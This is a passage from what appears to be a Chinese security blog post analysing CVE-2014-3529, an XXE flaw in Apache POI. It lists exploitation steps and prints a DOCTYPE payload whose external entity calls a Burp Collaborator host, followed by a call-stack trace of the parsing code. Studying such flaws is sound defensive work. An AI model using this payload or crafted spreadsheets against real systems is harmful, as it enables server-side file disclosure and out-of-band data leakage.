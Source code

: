 payload生成：
https://github.com/whitel1st/docem

### [CVE-2014-3529]Apache poi-ooxml XXE

#### 影响范围
Apache poi <= 3.10（poi-ooxml-3.10-FINAL.jar及以下版本）
参考：
https://www.itread01.com/hkpcyyp.html
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317101600274.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
利用方式：
1、新建test.xlsx；
2、解压；
3、修改`[Content_Types].xml`文件，在第一行xml声明下面添加：


```xml
<!DOCTYPE root [
<!ENTITY % xxe SYSTEM "http://ufdvoqvmlhs4r9pv6if6hkyqhhn7bw.burpcollaborator.net/test_xxe">
%xxe;
]>
```
4、重新添加到压缩文件中：
```bash
zip -r ../test2.xlsx *
```
（或者直接在7zip里打开然后修改）
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116143043610.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
上传完之后，虽然碰到了不能解析content types部分的问题，但是请求还是发出来了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116143254710.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)


代码跟踪：
不管是：

还是：

都会跟到这里：
`org\apache\poi\poi-ooxml\3.9\poi-ooxml-3.9.jar!\org\apache\poi\openxml4j\opc\OPCPackage#open`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317105053229.png)
贴一下最近的调用栈：
```
getPartsImpl:162, ZipPackage (org.apache.poi.openxml4j.opc)
getParts:662, OPCPackage (org.apache.poi.openxml4j.opc)
open:269, OPCPackage (org.apache.poi.openxml4j.opc)
open:39, PackageHelper (org.apache.poi.util)
<init>:204, XSSFWorkbook (org.apache.poi.xssf.usermodel)
ooxml_xxe:47, ooxmlXXE (org.joychou.controller.othervulns)
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317105345583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
可以看到，首先就是对这个xml文件的解析：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317105650169.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
继续跟进，有一个专门解析Content_Types文件的方法：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317105837372.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
这里应该就是XXE的点了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317110019249.png)
